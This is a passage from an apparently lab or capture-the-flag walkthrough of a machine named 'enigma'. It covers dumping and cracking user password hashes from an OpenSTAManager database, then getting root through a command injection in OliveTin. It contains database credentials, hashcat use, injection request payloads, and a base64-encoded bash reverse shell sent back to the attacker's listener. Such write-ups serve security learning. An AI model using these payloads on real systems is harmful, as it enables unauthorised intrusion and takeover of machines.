| zz\_events                       |

| zz\_field\_record                 |

| zz\_fields                       |

| zz\_files                        |

| zz\_files\_categories             |

| zz\_files\_print                  |

| zz\_group\_module                 |

| zz\_group\_module\_lang            |

| zz\_group\_segment                |

| zz\_group\_view                   |

| zz\_groups                       |

| zz\_groups\_lang                  |

| zz\_hooks                        |

| zz\_hooks\_lang                   |

| zz\_imports                      |

| zz\_imports\_lang                 |

| zz\_langs                        |

| zz\_logs                         |

| zz\_marche                       |

| zz\_modules                      |

| zz\_modules\_lang                 |

| zz\_notes                        |

| zz\_oauth2                       |

| zz\_operations                   |

| zz\_otp\_tokens                   |

| zz\_permissions                  |

| zz\_plugins                      |

| zz\_plugins\_lang                 |

| zz\_prints                       |

| zz\_prints\_lang                  |

| zz\_segments                     |

| zz\_segments\_lang                |

| zz\_semaphores                   |

| zz\_settings                     |

| zz\_settings\_lang                |

| zz\_storage\_adapters             |

| zz\_tasks                        |

| zz\_tasks\_lang                   |

| zz\_tasks\_logs                   |

| zz\_tokens                       |

| zz\_user\_sedi                    |

| **zz\_users**                        |

| zz\_views                        |

| zz\_views\_lang                   |

| zz\_widgets                      |

| zz\_widgets\_lang                 |

+---------------------------------+

\[#] Well the table zz\_users seems to have user credentials. lets craft a SQL query to fetch Username, password from the table zz\_users

www-data@enigma:\~/html/openstamanager/files$ mysql -u brollin -p'Fri3nds@9099' openstamanager -e "SELECT username, password FROM zz\_users;"

<nager -e "SELECT username, password FROM zz\_users;"

mysql: \[Warning] Using a password on the command line interface can be insecure.

+----------+--------------------------------------------------------------+

| username | password                                                     |

+----------+--------------------------------------------------------------+

**| admin    | $2y$10$rTJVUNyGGKPlhw2cFdf5AeDHVMhnIChddcHx2XxVLMQS2KsuSz4Pu |**

**| haris    | $2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC** |

+----------+--------------------------------------------------------------+

\[#] Perfect we got bycrypt hashes for admin and haris users, with a cost factor of 10, so it might be cracked. while bycrypt hashes aren't easily cracked. lets give it a shot though

\# hashcat -m 3200 '$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC' --show

$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC:**bestfriends**

\[#] As hashcat saves already cracked hashes password, and i did cracked them earlier, so i just used to show flag to see the cracked value!

\[#] Lets get access for haris!

www-data@enigma:\~/html/openstamanager/files$ su haris

Password: bestfriends

haris@enigma:/var/www/html/openstamanager/files$ id

uid=1000(haris) gid=1000(haris) groups=1000(haris),100(users)

\[#] Go grab the user flag!

haris@enigma:\~$ ls -la /home/haris

ls -la

total 32

drwxr-x--- 4 haris haris 4096 Jun 23 14:21 .

drwxr-xr-x 6 root  root  4096 Jun 23 14:14 ..

\-rw------- 1 haris haris    0 Jun 23 14:21 .bash\_history

\-rw-r--r-- 1 haris haris  220 Feb 18 16:53 .bash\_logout

\-rw-r--r-- 1 haris haris 3771 Feb 18 16:53 .bashrc

drwx------ 2 haris haris 4096 Jun 23 14:14 .cache

drwx------ 3 haris haris 4096 Jun 23 14:14 mail

\-rw-r--r-- 1 haris haris  807 Feb 18 16:53 .profile

\-rw-r----- 1 root  haris   33 Jul 19 13:20 user.txt

\-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Step:-3 Privilege Escalation

\[#] While listing the sudo permission, i saw that this user does not have any sudo permissions 

\[#] Then i have looked for the env variables

haris@enigma:\~$ env

env

SHELL=/bin/bash

PWD=/home/haris

LOGNAME=haris

XDG\_SESSION\_TYPE=tty

HOME=/home/haris

LANG=en\_US.UTF-8

LS\_COLORS=

LESSCLOSE=/usr/bin/lesspipe %s %s

XDG\_SESSION\_CLASS=user

LESSOPEN=| /usr/bin/lesspipe %s

USER=haris

SHLVL=4

XDG\_SESSION\_ID=c1

LC\_CTYPE=C.UTF-8

XDG\_RUNTIME\_DIR=/run/user/1000

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

MAIL=/var/mail/haris

\_=/usr/bin/env

OLDPWD=/home/haris/mail

\[#]  Still nothing interesting, then i looked for the services and ports running internally

haris@enigma:\~$ ss -tnlp

ss -tnlp

State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess

LISTEN 0      100          0.0.0.0:993        0.0.0.0:\*          # Secure IMAP Email

LISTEN 0      100          0.0.0.0:995        0.0.0.0:\*          # Secure POP3 Email

LISTEN 0      4096         0.0.0.0:43791      0.0.0.0:\*          # Random RPC Port

LISTEN 0      64           0.0.0.0:35333      0.0.0.0:\*          # Random RPC Port

LISTEN 0      70         127.0.0.1:33060      0.0.0.0:\*          # MySQL Admin Protocol

LISTEN 0      100        127.0.0.1:25         0.0.0.0:\*          # SMTP Email Routing

LISTEN 0      4096      127.0.0.54:53         0.0.0.0:\*          # Local DNS Resolver

LISTEN 0      100          0.0.0.0:143        0.0.0.0:\*          # IMAP Email

LISTEN 0      4096         0.0.0.0:55449      0.0.0.0:\*          # Random RPC Port

LISTEN 0      511          0.0.0.0:80         0.0.0.0:\*          # Web Server (HTTP)

LISTEN 0      100          0.0.0.0:110        0.0.0.0:\*          # POP3 Email

LISTEN 0      4096         0.0.0.0:111        0.0.0.0:\*          # RPC Bind Service

LISTEN 0      64           0.0.0.0:2049       0.0.0.0:\*          # NFS File Sharing

LISTEN 0      4096         0.0.0.0:22         0.0.0.0:\*          # SSH Remote Access

LISTEN 0      4096         0.0.0.0:55247      0.0.0.0:\*          # Random RPC Port

**LISTEN 0      4096       127.0.0.1:1337       0.0.0.0:\*          # Custom Local App**

LISTEN 0      4096         0.0.0.0:50613      0.0.0.0:\*          # Random RPC Port

LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:\*          # Local Systemd DNS

LISTEN 0      151        127.0.0.1:3306       0.0.0.0:\*          # MySQL Database Server

LISTEN 0      100             \[::]:993           \[::]:\*          # Secure IMAP Email

LISTEN 0      100             \[::]:995           \[::]:\*          # Secure POP3 Email

LISTEN 0      4096            \[::]:57809         \[::]:\*          # Random RPC Port

LISTEN 0      4096            \[::]:35325         \[::]:\*          # Random RPC Port

LISTEN 0      100            \[::1]:25            \[::]:\*          # SMTP Email Routing

LISTEN 0      100             \[::]:143           \[::]:\*          # IMAP Email

LISTEN 0      64              \[::]:32899         \[::]:\*          # Random RPC Port

LISTEN 0      511             \[::]:80            \[::]:\*          # Web Server (HTTP)

LISTEN 0      100             \[::]:110           \[::]:\*          # POP3 Email

LISTEN 0      4096            \[::]:111           \[::]:\*          # RPC Bind Service

LISTEN 0      64              \[::]:2049          \[::]:\*          # NFS File Sharing

LISTEN 0      4096            \[::]:22            \[::]:\*          # SSH Remote Access

LISTEN 0      4096            \[::]:59113         \[::]:\*          # Random RPC Port

&#x20;      

\[#] We can see a custom local app at 1337

haris@enigma:\~$ curl http://127.0.0.1:1337

curl http://127.0.0.1:1337

<!DOCTYPE html>

<html lang = "en">

&#x20;       <head>

&#x20;               <meta charset = "UTF-8" />

&#x20;               <meta name = "viewport" content = "width=device-width, initial-scale=1.0" />

&#x20;               <meta name = "description" content = "Give safe and simple access to predefined shell commands from a web interface." />

&#x20;               <title>OliveTin</title>

&#x20;               <link rel = "shortcut icon" type = "image/png" href = "/assets/OliveTinLogo-jRx-Gghe.png" />

&#x20;               <link rel = "apple-touch-icon" sizes="57x57" href="/assets/OliveTinLogo-57px-B3yOXIxP.png" />

&#x20;               <link rel = "apple-touch-icon" sizes="120x120" href="/assets/OliveTinLogo-120px-BZ3kS-xp.png" />

&#x20;               <link rel = "apple-touch-icon" sizes="180x180" href="/assets/OliveTinLogo-180px-DBoTqUbn.png" />

&#x20;               <base href = "/" />

&#x20;               

&#x20;               <link rel="stylesheet" crossorigin href="/assets/index-BzcwB5yK.css">

&#x20;       </head>

&#x20;       <body>

&#x20;               <slot id = "app" />

&#x20;               <noscript>

&#x20;                       
Sorry, JavaScript is required to use OliveTin.

&#x20;               </noscript>

&#x20;               <dialog title = "Big Error Message" id = "big-error" class = "error padded-content">

&#x20;               </dialog>

&#x20;               

&#x20;               

&#x20;       </body>

</html>

\[#] And the app is of something OliveTin service, we gotta tunnel up this port to see what exactly is there!

\[#] After tunneling the custom app, you may see a olivetin dashboard



\[#] The olivetin is a web that basically let us run shell commands via buttons! while the version of this OliveTin 3000.10.0, is prone to an open vulnerability CVE-2026-27626

\[!] OliveTin: OS Command Injection via `password` argument type and webhook JSON extraction bypasses shell safety checks

\[!] OliveTin's shell mode safety check (checkShellArgumentSafety) blocks several dangerous argument types but not password. A user supplying a password-typed argument can inject shell metacharacters that execute arbitrary OS commands. A second independent vector allows unauthenticated RCE via webhook-extracted JSON values that skip type safety checks entirely before reaching sh -c.

\[!] A user supplies a password argument value of '; id; echo ' → sh -c interprets the shell metacharacters → arbitrary command execution.

\[!] This is not the "admin already has access" pattern: OliveTin explicitly enforces an admin/user boundary where admins define commands and users only supply argument values. The password type is the documented, intended mechanism for user-supplied sensitive values. The safety check exists precisely to prevent users from escaping this boundary — password is the one type it fails to block.

(source:- https://github.com/advisories/GHSA-49gm-hh7w-wfvf)

\[#] So this version basically fails to check for the password argument type, so we can provide any type of argument, even shell command as well separated by ;(semicolon)

\[#] The  GitHub repo does provide a working PoC for this attack vector, we can use it 

\# curl -X POST http://localhost:1337/api/StartAction \\

&#x20; -H "Content-Type: application/json" \\

&#x20; -d '{"actionId": "run-command", "arguments": \[{"name": "pass", "value": "'; id; echo '"}]}'

curl: (7) Failed to connect to localhost port 1337 after 8 ms: Could not connect to server

uid=0(root) gid=0(root) groups=0(root),145(docker)

"}]}

\[#] Now we can craft a bash64 encoded rev shell payload to get the root shell

\[#] Lets start by creating a json file that will contain all the required arguments, to avoid unnecessary quotation errors

cat << 'EOF' > /tmp/payload.json

{

&#x20; "actionId": "backup\_database",

&#x20; "arguments": \[

&#x20;   {"name": "db\_user", "value": "backup\_svc"},

&#x20;   {"name": "db\_pass", "value": "x''' ; bash -c 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xMzYvNTY1NiA\*\*\*\*| base64 -d | bash' >/dev/null 2>\&1 \& echo; #"},

&#x20;   {"name": "db\_name", "value": "production"}

&#x20; ]

}

EOF

(note :- replace the base64 payload hash with your hash!)

\[#] Now trigger the payload.

\# curl -s -X POST -H "Content-Type: application/json" -d @/tmp/payload.json http://127.0.0.1:9000/api/olivetin.api.v1.OliveTinApiService/StartActionAndWait

{"logEntry":{"datetimeStarted":"2026-07-19 14:47:02", "actionTitle":"Backup Database", "output":"mysqldump: \[Warning] Using a password on the command line interface can be insecure.\\nUsage: mysqldump \[OPTIONS] database \[tables]\\nOR     mysqldump \[OPTIONS] --databases \[OPTIONS] DB1 \[DB2 DB3...]\\nOR     mysqldump \[OPTIONS] --all-databases \[OPTIONS]\\nFor more options, use mysqldump --help\\n\\n", "timedOut":false, "exitCode":0, "user":"guest", "userClass":"", "actionIcon":"⛁", "tags":\[], "executionTrackingId":"d194e0ef-c3d9-4752-af42-35110370e89b", "datetimeFinished":"2026-07-19 14:47:02", "executionStarted":true, "executionFinished":true, "blocked":false, "datetimeIndex":"0", "canKill":false, "datetimeRateLimitExpires":"", "bindingId":"backup\_database"}} 

\[#] And on the shell...............

\# nc -lvnp 5656

listening on \[any] 5656 ...

connect to \[10.10.15.\*\*\*\*] from (UNKNOWN) \[10.129.63.63] 49764

bash: cannot set terminal process group (2634): Inappropriate ioctl for device

bash: no job control in this shell

\#root@enigma:/# id

id

uid=0(root) gid=0(root) groups=0(root)

\[#] Root Access Granted :)

&#x20;

